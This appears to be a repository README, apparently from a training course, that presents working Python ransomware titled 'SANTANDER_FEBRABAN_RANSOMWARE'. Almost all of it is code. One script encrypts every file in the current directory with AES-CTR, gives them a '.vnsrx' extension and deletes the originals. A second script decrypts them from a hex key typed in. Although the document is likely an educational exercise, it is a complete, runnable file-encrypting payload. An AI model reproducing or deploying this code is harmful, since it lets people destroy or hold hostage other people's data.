 # SANTANDER_FEBRABAN_RANSOMWARE

import os
import pyaes
import os
import random
import string

def generate_random_key(length=32):
   """Gera uma chave aleatória de bytes usando os.urandom para segurança criptográfica."""
   return os.urandom(length)

def encrypt_file(file_name, key):
   # Lê os dados do arquivo
   with open(file_name, "rb") as file:
       file_data = file.read()

   # Cria um objeto AES com AES-256
   aes = pyaes.AESModeOfOperationCTR(key)

   # Criptografa os dados
   encrypted_data = aes.encrypt(file_data)

   # Salva os dados criptografados em um novo arquivo com a extensão .vnsrx
   new_file_name = file_name + ".vnsrx"
   with open(new_file_name, "wb") as file:
       file.write(encrypted_data)

   print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo criptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo original
       os.remove(file_name)
       print(f"Arquivo original {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo criptografado {new_file_name} não foi criado. O arquivo original não será removido.")

def main():
   # Gera uma chave aleatória de 32 bytes
   key = generate_random_key(32)

   print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

   # Nome do arquivo do script
   script_name = os.path.basename(__file__)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Ignora diretórios, arquivos já criptografados e o próprio script
       if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
           encrypt_file(file_name, key)

   print("Todos os arquivos foram criptografados.")

if __name__ == "__main__":
   main()
DECRYPTER

import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()
ARQUIVO MODELO
